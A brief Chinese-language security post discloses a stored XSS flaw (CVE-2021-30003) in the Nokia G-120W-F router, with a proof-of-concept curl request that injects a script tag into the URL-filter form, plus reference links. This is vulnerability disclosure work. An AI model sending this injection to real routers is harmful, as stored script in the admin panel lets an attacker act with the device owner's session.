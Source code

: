 #  Nokia-G-120W-F-路由器存储型XSS（CVE-2021-30003）   
原创 骇客安全  骇客安全   2025-03-28 21:56  
  
在诺基亚 G-120W-F 3FE46606AGAB91设备上发现了一个存储型XSS。  
  
  
详情分析：  
https://research.0xdutra.com/posts/router-g120w-f/  
  
  
poc：  
  
```
curl 'http://192.168.237.254/urlfilter.cgi?add' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://192.168.237.254' -H 'Connection: keep-alive' -H 'Referer: http://192.168.237.254/urlfilter.cgi' -H 'Cookie: lsid=YRTNSynGMeHSwqOx; lang=../../..; sid=KpJqGrBuvsTrduXP; admin=1' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'csrf_token=LnwHSQKbNXXlDciL&passwd_token_value=&url_address=<SCRIPT>alert(1)</SCRIPT>&port_num=8080'
```  
  
  
ref：  
  
  
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-30003  
  
  
